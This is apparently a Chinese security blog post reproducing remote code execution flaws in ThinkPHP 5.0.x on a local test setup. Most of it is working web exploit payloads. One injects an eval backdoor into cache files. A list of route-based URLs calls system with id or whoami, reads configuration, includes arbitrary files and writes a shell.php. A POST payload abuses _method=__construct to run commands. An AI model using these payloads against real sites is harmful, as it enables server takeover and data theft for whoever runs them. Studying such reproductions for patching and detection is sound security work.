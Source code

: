 ```yaml
---
title: ThinkPHP 5 代码执行漏洞复现+POC
date: 2020-06-09 20:07:59
categories: 
- 漏洞复现
tags: 
- 漏洞
- ThinkPHP 5
- RCE
- ThinkPHP
- 漏洞复现
---
```


## ThinkPHP 5.0.10 环境框架搭建

ThinkPHP是一个免费开源的，快速、简单的面向对象的轻量级PHP开发框架，是为了敏捷WEB应用开发和简化企业应用开发而诞生的。ThinkPHP从诞生以来一直秉承简洁实用的设计原则，在保持出色的性能和至简的代码的同时，也注重易用性。
<!--more-->
![](1.png)
查看当前版本
![](2.png)
环境搭建成功


## 缓存类导致RCE

### 版本

>5.0.0<=ThinkPHP5<=5.0.10
    
### 测试payload

**漏洞利用条件**

1. 基于tp5开发的代码中使用了Cache::set 进行缓存
2. 在利用版本范围内
3. runtime目录可以访问

创建一个生成缓存的页面
![](3.png)
构造payload如下：

>http://127.0.0.1/public/?username=syst1m%0d%0a@eval($_GET[_]);//
    
成功在缓存文件写入payload

![](4.png)

>http://127.0.0.1/runtime/cache/b0/68931cc450442b63f5b3d276ea4297.php?_=phpinfo();

![](5.png)

成功执行代码
    
## 未开启强制路由导致rce

### 版本

>5.0.0<=ThinkPHP5<=5.0.10
    
### 测试payload

>5.1.x ：
``` html
    ?s=index/\think\Request/input&filter[]=system&data=pwd
    ?s=index/\think\view\driver\Php/display&content=<?php phpinfo();?>
    ?s=index/\think\template\driver\file/write&cacheFile=shell.php&content=<?php phpinfo();?>
    ?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
    ?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
```
>5.0.x ：
``` html
    ?s=index/think\config/get&name=database.username # 获取配置信息
    ?s=index/\think\Lang/load&file=../../test.jpg    # 包含任意文件
    ?s=index/\think\Config/load&file=../../t.php     # 包含任意.php文件
    ?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
```

当前环境版本是5.0.10，构造payload如下：

>http://127.0.0.1/public/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami

![](6.png)
成功执行代码

## method任意调用方法导致rce

### 版本

>5.0.0<=ThinkPHP5<=5.0.10
    
### 测试payload

构造payload如下：
```
POST /index.php?s=index HTTP/1.1
_method=__construct&filter[]=system&method=get&get[]=whoami
```

![](7.png)
成功执行代码
## 参考

[Thinkphp5 RCE总结](https://xz.aliyun.com/t/7792#toc-0)
[Thinkphp5 代码执行学习](https://y4er.com/post/thinkphp5-rce)



